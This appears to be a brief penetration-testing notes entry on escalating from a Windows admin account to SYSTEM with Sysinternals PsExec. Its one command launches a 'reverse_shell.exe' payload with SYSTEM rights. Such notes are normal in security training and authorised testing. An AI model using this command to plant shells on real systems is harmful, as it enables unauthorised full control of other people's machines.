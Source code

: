 # PSEXEC \(admin to system\)

## PSEXEC.exe

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```text
PsExec64.exe -accepteula -i -s reverse_shell.exe
```















